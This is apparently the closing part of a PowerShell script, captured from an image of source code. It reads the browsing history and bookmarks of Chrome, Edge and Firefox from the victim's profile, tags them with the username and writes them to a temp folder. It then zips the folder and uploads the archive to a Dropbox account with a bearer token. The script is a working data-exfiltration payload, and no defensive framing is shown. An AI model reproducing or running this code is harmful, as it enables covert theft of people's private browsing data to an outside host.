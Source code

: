     $Regex = '(http|https)://([\w-]+\.)+[\w-]+(/[\w- ./?%&=]*)*?'

    if     ($Browser -eq 'chrome'  -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\History"}
    elseif ($Browser -eq 'chrome'  -and $DataType -eq 'bookmarks' )  {$Path = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Bookmarks"}
    elseif ($Browser -eq 'edge'    -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Local\Microsoft/Edge/User Data/Default/History"}
    elseif ($Browser -eq 'edge'    -and $DataType -eq 'bookmarks' )  {$Path = "$env:USERPROFILE/AppData/Local/Microsoft/Edge/User Data/Default/Bookmarks"}
    elseif ($Browser -eq 'firefox' -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-release\places.sqlite"}
    

    $Value = Get-Content -Path $Path | Select-String -AllMatches $regex |% {($_.Matches).Value} |Sort -Unique
    $Value | ForEach-Object {
        $Key = $_
        if ($Key -match $Search){
            New-Object -TypeName PSObject -Property @{
                User = $env:UserName
                Browser = $Browser
                DataType = $DataType
                Data = $_
            }
        }
    } 
}

Get-BrowserData -Browser "edge" -DataType "history" >> $env:TMP\$FolderName\BrowserData.txt

Get-BrowserData -Browser "edge" -DataType "bookmarks" >> $env:TMP\$FolderName\BrowserData.txt

Get-BrowserData -Browser "chrome" -DataType "history" >> $env:TMP\$FolderName\BrowserData.txt

Get-BrowserData -Browser "chrome" -DataType "bookmarks" >> $env:TMP\$FolderName\BrowserData.txt

Get-BrowserData -Browser "firefox" -DataType "history" >> $env:TMP\$FolderName\BrowserData.txt

############################################################################################################################################################

Compress-Archive -Path $env:tmp/$FolderName -DestinationPath $env:tmp/$ZIP

# Upload output file to dropbox

function dropbox {
$TargetFilePath="/$ZIP"
$SourceFilePath="$env:TEMP\$ZIP"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $db
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}
